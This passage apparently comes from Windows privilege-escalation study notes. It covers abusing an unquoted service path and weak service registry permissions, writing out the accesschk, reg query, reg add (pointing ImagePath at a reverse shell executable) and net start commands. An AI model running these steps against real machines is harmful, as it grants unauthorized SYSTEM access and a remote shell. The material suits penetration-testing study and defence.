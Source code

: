 Then you will be able to create the binary in that directory. The current user might also be in some other group that fits, so make sure to compare those.


After creating the B.exe reverse shell binary, just start the affected service.

```default
net start unquotedsvc
```



## Weak Registry Permissions for Service

Even though we might not be allowed to edit the config of a service, we might be able to edit the registry entry for that same service.

E.g. we might be able to edit the registry entry:

```default
HKLM\system\currentcontrolset\services\regsvc
```

even though we are not allowed to edit the config of service regsvc

```default
.\accesschk.exe /accepteula -uvwqk HKLM\system\currentcontrolset\services\regsvc

    Medium Mandatory Level (Default) [No-Write-Up]
    RW AUTHORITY\SYSTEM
        KEY_ALL_ACCESS
    RW BUILTIN\Administrators
        KEY_ALL_ACCESS
    RW NT AUTHORITY\INTERACTIVE
        KEY_ALL_ACCESS
```

NT AUTHORITY\INTERACTIVE is a pseudo group for all users that are allowed to log in. Which we happen to be one of.

Query the registry entry:

```default
reg query HKLM\system\currentcontrolset\services\regsvc
```

There should be a field like "ImagePath" that has the path to the binary, similar to the "binpath" in the service config.

Overwrite the registry entry:
```default
reg add HKLM\system\currentcontrolset\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
```

Then just start the service

```default
net start regsvc
```
